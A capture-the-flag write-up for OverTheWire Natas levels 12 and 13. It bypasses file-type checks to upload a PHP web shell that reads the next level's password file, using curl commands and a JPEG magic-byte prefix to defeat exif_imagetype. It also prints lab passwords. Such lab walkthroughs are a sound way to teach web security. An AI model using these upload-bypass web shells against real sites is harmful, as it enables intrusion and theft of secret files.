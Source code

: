 # 13. Level 12

This level we can upload a file without type checking.

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/
```

```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="mx7ozjvm3x.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```

Create a file `ving.php` like below.

```php
<?php
passthru("cat /etc/natas_webpass/natas13");
?>
```

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/ -F 'filename=mx7ozjvm3x.php' -F 'uploadedfile=@ving.php'
```

```
The file <a href="upload/vimpzt7smb.php">upload/vimpzt7smb.php</a> has been uploaded
```

```
$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/upload/vimpzt7smb.php
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

# 14. Level 13

This level checks whether the file is an image using `exif_imagetype` function before receive it.
So we create a file looks like an image.

```
$ echo -e '\xff\xd8\xff\xe0<?passthru("cat /etc/natas_webpass/natas14");?>' > ving.php
```

Then do the same as level 12.

```
$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/ -F 'filename=mx7ozjvm3x.php' -F 'uploadedfile=@ving.php'
```
